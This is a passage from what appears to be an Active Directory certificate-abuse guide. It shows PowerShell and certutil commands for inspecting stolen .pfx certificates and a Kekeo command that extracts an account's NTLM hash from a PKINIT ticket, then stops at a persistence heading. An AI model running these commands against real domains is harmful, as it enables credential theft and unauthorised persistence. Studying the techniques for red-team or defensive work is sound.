 ```powershell
$CertPath = “C:\path\to\cert.pfx”
$CertPass = “P@ssw0rd”
$Cert = New-Object
System.Security.Cryptography.X509Certificates.X509Certificate2
@($CertPath, $CertPass)
$Cert.EnhancedKeyUsageList
```

Certutil can also be used to parse a .pfx file

```
certutil.exe -dump -v cert.pfx
```

There is also small chance that a CA certificate file itself might be discoverd. The specterops paper showed the following image which displays how to identify this, using 3 different tools.

![](/images/cs3.png)


## Theft5 - NTLM Credential Theft via PKINIT

If an account authenticates and is granted a TGT through PKINIT, it is possible to extract the NTLM hash from the TGT. This is done to support legacy authentication on applications that do not support kerberos. 

Kekeo has a way to do this:

```
kekeo
tgt::pac /caname:DC01 /subject:harmj0y(current user) /castore:current_user /domain:domain.local
```

# Account Persistence

## Persist1 - Active User Credential Theft via Certificates
